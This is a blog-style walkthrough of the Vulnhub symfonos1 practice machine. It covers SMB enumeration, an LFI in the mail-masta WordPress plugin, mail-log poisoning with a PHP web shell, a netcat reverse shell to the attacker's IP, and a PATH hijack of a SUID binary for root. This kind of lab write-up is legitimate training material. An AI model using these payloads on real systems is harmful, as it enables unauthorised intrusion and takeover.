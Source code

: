 ```yaml
---
layout: post
title: "symfonos1 - Vulnhub Boot2Root"
date: 2020-06-27
excerpt: "Walkthrough for the symfonos1 VM"
tags: [vulnhub, symfonos, symfonos1, Boot2Root]
comments: false
---
```


Another series I ran across on vulnhub is the symfonos series, which is a total of 6 boxes of increasing difficulty. Below is the walkthrough on the first box, the easiest in the series.

## Reconnaissance & Scanning

After importing into VMware Workstation and booting up the machine, I ran `netdiscover -i eth0` to find the IP address of the machine.

![symfonos1 netdiscover](/assets/img/symfonos1-1.png)

Now that we have located the IP address of our target, we can proceed with performing an **nmap** scan to search for open ports, protocols and their versions.

![symfonos1 nmap](/assets/img/symfonos1-2.png)

Based on the scan, we can see that ssh, smtp, netbios and smb are running, along with an Apache webserver on port 80.

Visiting the webpage brings us to a page with nothing special on it, just a background image.

![symfonos1 home page](/assets/img/symfonos1-3.png)

At this point, I elected to run **dirb** to enumerate the website. It came back with minimal results using the big.txt wordlist, as it just had a list of Apache's manual directories.

![symfonos1 dirb](/assets/img/symfonos1-4.png)

I next turned my attention to SMB that was running over port 445.

I was able to connect as an anonymous user using **rpcclient** as shown below.

![symfonos1 rpcclient](/assets/img/symfonos1-5.png)

Running `enumdomusers` results in a user, helios, being uncovered. Running `queryuser 0x3e8` displays info about that user. `getdompwinfo` displays that the minimum characters for the password are set to 5. However before attempting to brute force the password, I wanted to enumerate the smb shares based on the result of the **nmap** scan.

![symfonos1 rpcclient info](/assets/img/symfonos1-6.png)

Next, I ran the smb-enum-shares script with nmap to enumerate smb shares.

![symfonos1 rpcclient nmap smb-enum-shares](/assets/img/symfonos1-7.png)

This showed several different shares that could be connected to anonymously **\\192.168.68.137\anonymous, \\192.168.68.137\IPC$,** and **\\192.168.68.137\print$**. There was also a **\\192.168.68.137\helios** share present that anonymous/guest access was disabled on.

At this point, I tried to connect to the shares anonymous could access to see if anything could be pilfered. This was done with **smbclient**. The anonymous share was the first to be checked.

Upon connecting, there was an attention.txt file present.

![symfonos1 smbclient anonymous share](/assets/img/symfonos1-8.png)

I downloaded the file, dropped the smb connection, and read the file locally with **cat**

![symfonos1 smbclient attention.txt](/assets/img/symfonos1-9.png)

This file lists 3 potential passwords, and we already uncovered the **helios** user earlier while running rpcclient. Let's try to connect to his share via SMB with these passwords.

![symfonos1 smbclient helios share](/assets/img/symfonos1-10.png)

Success, we were able to connect with the password of **qwerty** as helios to his directory. As shown above, there were two files in that directory we saved with **get**.

![symfonos1 research.txt todo.txt](/assets/img/symfonos1-11.png)

The **research.txt** file had info about Helios, but nothing relevant to enumerating further. The second file mentions a /h3l105 folder. Let's see what happens when we append this to the end of the website url.

![symfonos1 research.txt h3l105](/assets/img/symfonos1-12.png)

It appears that this is a wordpress site, but it is not loading completely because it's trying to access symfonos.local, lets add that to our attacking machine's host file and reload the page. This is done by running `nano /etc/hosts` and adding it as shown in the screenshot below:

![symfonos1 etc/hosts](/assets/img/symfonos1-13.png)

Once saved, reload the page again. You should now see the page properly and a login page. Next, we will use wp-scan to enumerate plugins for possible vulnerabilities.

![symfonos1 wp-scan enumerate plugins](/assets/img/symfonos1-14.png)

## Exploitation

You will come across mail-masta as one of the plugins in use. A quick Google search leads to an exploit for this on [Exploit-DB](https://www.exploit-db.com/exploits/40290).

![symfonos1 LFI exploit](/assets/img/symfonos1-15.png)

Modify the sample code and use the following url to pull a list of users on the system `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

![symfonos1 LFI etc/passwd](/assets/img/symfonos1-16.png)

Now that we are sure that LFI works, we can attempt SMTP poisoning to utilize RCE. This is accomplished with running `telnet symfonos.local 25`

![symfonos1 smtp](/assets/img/symfonos1-17.png)

We will now send an email to Helios with a 1 line of PHP code that allows for RCE: `<?php system($_GET['c']); ?>`

![symfonos1 smtp send](/assets/img/symfonos1-18.png)

Navigating to `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=pwd` will print the working directory after the output of helios' mail.

![symfonos1 smtp RCE](/assets/img/symfonos1-19.png)

This means we should be able to create a reverse shell, lets create a netcat listener on our attacking machine with `nc -nvlp 5555` and then navigate to `symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc -e /bin/sh 192.168.68.135 5555` in the web browser and press enter, this should connect to your netcat listener.

![symfonos1 website RCE](/assets/img/symfonos1-20.png)
![symfonos1 netcat connection](/assets/img/symfonos1-21.png)

Next, we will create a TTY shell with `python -c 'import pty;pty.spawn("/bin/bash")'`.

![symfonos1 python tty shell](/assets/img/symfonos1-22.png)

Next, we will use the following `find / -perm -u=s -type f 2>/dev/null` to find all the programs that run with SUID.

![symfonos1 find](/assets/img/symfonos1-23.png)

One that stands out is **/opt/statuscheck** which has a **curl** command embedded in it when reviewing the binary with `strings /opt/statuscheck`

![symfonos1 statuscheck](/assets/img/symfonos1-24.png)

We will take advantage of this by copying the bash shell into a curl binary in the temp directory and temporarily changing the $PATH variable to run this command instead of curl as shown below.

![symfonos1 root shell](/assets/img/symfonos1-25.png)

At this point you have root! Navigate to /root and run ls to list files, you should see **proof.txt**. Run `cat proof.txt` to view the contents of this file to finish the box.

![symfonos1 root proof.txt](/assets/img/symfonos1-26.png)










